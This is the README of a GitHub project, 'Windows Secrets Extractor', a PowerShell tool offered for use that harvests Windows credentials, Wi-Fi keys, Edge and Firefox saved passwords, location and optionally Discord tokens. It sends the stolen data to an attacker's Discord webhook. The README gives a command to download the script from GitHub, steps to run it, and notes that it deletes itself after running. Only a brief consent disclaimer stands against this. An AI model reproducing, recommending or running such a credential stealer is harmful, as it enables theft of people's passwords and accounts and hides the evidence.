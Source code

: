 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell [CredentialManager](https://www.powershellgallery.com/packages/CredentialManager/2.0) Module : ``Install-Module -Name CredentialManager``
> (Optionnal) Python 3, if you want Discord Token Grab


### Configuration
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``8`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
